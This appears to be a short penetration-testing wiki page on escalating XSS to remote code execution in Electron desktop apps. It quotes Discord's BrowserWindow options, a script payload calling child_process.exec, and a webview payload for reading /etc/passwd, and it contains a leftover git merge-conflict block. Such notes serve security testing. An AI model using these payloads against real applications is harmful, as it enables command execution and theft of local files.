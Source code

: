 # XSS to RCE Electron Desktop Apps

Recommended read for more trick: [https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1](https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1)

When I test Electron app, first I always check the options of the [BrowserWindow API](https://www.electronjs.org/docs/api/browser-window), which is used to create a browser window. By checking it, I think about how RCE can be achieved when arbitrary JavaScript execution on the renderer is possible.\
Example:

```
const mainWindowOptions = {
  title: 'Discord',
  backgroundColor: getBackgroundColor(),
  width: DEFAULT_WIDTH,
  height: DEFAULT_HEIGHT,
  minWidth: MIN_WIDTH,
  minHeight: MIN_HEIGHT,
  transparent: false,
  frame: false,
  resizable: true,
  show: isVisible,
  webPreferences: {
    blinkFeatures: 'EnumerateDevices,AudioOutputDevices',
    nodeIntegration: false,
    preload: _path2.default.join(__dirname, 'mainScreenPreload.js'),
    nativeWindowOpen: true,
    enableRemoteModule: false,
    spellcheck: true
  }
};
```

## nodeIntgration RCE

If the nodeIntegration is set to true, a web page's JavaScript can use Node.js features easily just by calling the `require()`. For example, the way to execute the calc application on Windows is:

```
<script>
  require('child_process').exec('calc');
</script>
```

## Read Arbitrary Internal FIle

If contextIsolation set to false you can try to use \<webview> (similar to \<iframe> butcan load local files) to read local files and exfiltrate them: using something like **\<webview src=”file:///etc/passwd”>\</webview>:**

<<<<<<< HEAD
![](<../../.gitbook/assets/1 u1jdRYuWAEVwJmf\_F2ttJg.png>)
=======
![](../../.gitbook/assets/1-u1jdryuwaevwjmf\_f2ttjg.png)
>>>>>>> master

**(Trick copied form** [**here**](https://medium.com/@renwa/facebook-messenger-desktop-app-arbitrary-file-read-db2374550f6d)**).**
